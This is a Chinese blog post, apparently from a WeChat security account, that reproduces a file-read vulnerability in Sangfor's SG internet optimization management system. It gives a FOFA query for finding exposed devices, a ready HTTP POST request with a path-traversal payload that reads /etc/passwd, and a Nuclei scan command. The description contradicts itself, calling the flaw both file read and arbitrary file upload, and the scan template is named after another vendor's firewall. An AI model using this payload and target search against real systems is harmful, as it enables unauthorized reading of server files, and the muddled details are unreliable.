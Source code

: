 #  漏洞复现|深信服SG上网优化管理系统存在文件读取漏洞

原创 禾小盾  [ 数字人才创研院 ](javascript:void\(0\);)

**数字人才创研院** ![]()

微信号 HD-Talent

功能介绍 提供网络安全数字化人才创新培养体系，助力网络安全爱好者一臂之力。

____

___发表于_

收录于合集

#漏洞复现 41 个

#深信服 1 个

  

点击上方蓝字关注我们

BEGINNING OF SPRING

![]()

0x01

      阅读须知       

Reading Instructions

![]()

    数字人才创研院秉承探究学习与交流的理念，一切从降低已有潜在威胁出发，所有发布的技术文章仅供参考，未经授权请勿利用文章中的技术内容对任何计算机系统进行入侵操作，否则对他人或单位而造成的直接或间接后果和损失，均由使用者本人负责。

    郑重声明：本文所提供的工具与思路仅用于学习与研究，禁止用于非法目的！团队已致电说明并告知详细解决方案！  
![]()

0x02

       漏洞概述      

Vulnerability Overview

  
  

深信服科技股份有限公司是一家专注于企业级网络安全、云计算、IT基础设施与物联网的产品和服务供应商，拥有深信服智安全、信服云两大业务品牌，与子公司信锐技术，致力于承载各行业用户数字化转型过程中的基石性工作，从而让每个用户的数字化更简单、更安全。

  深信服SG上网优化管理系统 catjs.php **存在任意文件上传漏洞** ，未经授权的攻击者通过漏洞可以上传任意文件，获取服务器权限。

  
  

![]()

 **(文章仅限技术交流，禁止非授权操作！)**

0x03

       漏洞复现      

Vulnerability Recurrence

![]()

fofa：title="SANGFOR上网优化管理"

  
  
  

1.执行如下语句上传txt文档，并访问该txt文件。

  *   *   *   *   *   *   *   *   *   *   * 

    
    
      
    POST /php/catjs.php HTTP/1.1Host: {Hostname}User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 35Accept-Encoding: gzip, deflateConnection: closeContent-Type: application/x-www-form-urlencoded["../../../../../../../etc/passwd"]  
    其中Hostname为目标漏洞平台的实际地址或域名

  
  
  

2.访问目标漏洞资产，得到内容“敏感信息”

  
  

![]()

 **(文章仅限技术交流，禁止非授权操作！)**

0x04

     漏洞脚本     

Vulnerability script

  
  

1.Nuclei验证脚本命令使用如下：

  *   *   *   * 

    
    
    nuclei.exe -t wangshen-secgate-objappupfile-fileupload.yaml -l wangshen-secgate-objappupfile-fileupload_Subs.txt--------------------------------------------wangshen-secgate-objappupfile-fileupload_Subs.txt可以结合实际情况自定义--------------------------------------------

  
  
  
  

2.空间指纹截图如下：

![]()

  
  
  
  

3.关注公众号并回复： **深信服SG** ，即可 ** **获取脚本**** 。

  
  

 **(文章仅限技术交流，禁止非授权操作！)**

0x05

     修复建议     

Repair Suggestions

  
  

1.实施产品的权限访问控制，降低互联网搜索引擎的查询。

  
  
  
  

2.加强后台认证要求（如AAAA策略等），提高口令的安全性。

  
  
  
  

3.增强关键页面的安全性，提升WEB后台的安全访问控制权限能力。

  
  
![]()

往期推荐 · 值得阅看

  

[

点亮「星标」，让我们不再错过~

2023-10-11

![]()
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247492095&idx=1&sn=9420eaa5c76b190b343b41ab1bc65e89&chksm=c0c9d3e8f7be5afe30b91b8b3c54ca3eab08d2ff629f41b00b6b2dae44994606990c9c4b7690&scene=21#wechat_redirect)[

漏洞复现|网神SecGate3600防火墙存在任意文件上传漏洞

2023-09-28

![]()
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247491725&idx=1&sn=46a57080be18fe06606ade8e06818ad3&chksm=c0c9d29af7be5b8c55ae5f4a2e1ada52dd6166bf976f22ec3cb35808abbaee40536e94523269&scene=21#wechat_redirect)[

漏洞复现|某友集团报表系统存在未授权访问+任意文件上传利用漏洞

2023-09-20

![]()
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247491223&idx=1&sn=b94be504d8ee400999daf770758f3dbe&chksm=c0ca2c80f7bda59632c9dafb1d3c33e1f344e27822fb5860e768b9fc5140c045d0826a9cf64f&scene=21#wechat_redirect)[

漏洞复现|某VPN存在未授权管理用户遍历+任意账号密码修改漏洞

2023-08-15

![]()
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247491171&idx=1&sn=ec1fd325fcbbd7aae3b7d1d1e80c4e66&chksm=c0ca2c74f7bda56270c74ec0c99da89261d0a3a3b4708c23bf52be8e867e387935beacbdc496&scene=21#wechat_redirect)[

PHPMyadmin的Getshell方法汇总

2023-07-01

![]()
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247489772&idx=1&sn=bb2dff403c65967b451f73d0716b3ff7&chksm=c0ca2afbf7bda3eda3dbbe4a70bb3e6e76a3a08affbfa79fc28664bcf54e5ab1e8d8bfaf9c88&scene=21#wechat_redirect)[

漏洞复现|北京网康 NS-ASG安全网关存在远程命令执行漏洞

2023-06-19

![]()
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247489074&idx=1&sn=e73cda6e82c3ecd9e744b47b8c724476&chksm=c0ca2425f7bdad3358bb6befad958262a271c3e80dc907d29255ce6321294c7c8d9be19ce5a4&scene=21#wechat_redirect)

[漏洞复现|联软科技安全准入门户平台存在远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247488202&idx=1&sn=4c78b80022a12ed637d312647a2f7ee2&chksm=c0ca20ddf7bda9cb738eaea8983768026a1184189b0417577f716750a4f34041f8fcf7a05bd8&scene=21#wechat_redirect)

[2023-06-02](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247488202&idx=1&sn=4c78b80022a12ed637d312647a2f7ee2&chksm=c0ca20ddf7bda9cb738eaea8983768026a1184189b0417577f716750a4f34041f8fcf7a05bd8&scene=21#wechat_redirect)

[![]()](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247488202&idx=1&sn=4c78b80022a12ed637d312647a2f7ee2&chksm=c0ca20ddf7bda9cb738eaea8983768026a1184189b0417577f716750a4f34041f8fcf7a05bd8&scene=21#wechat_redirect)

  

![]()

END

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

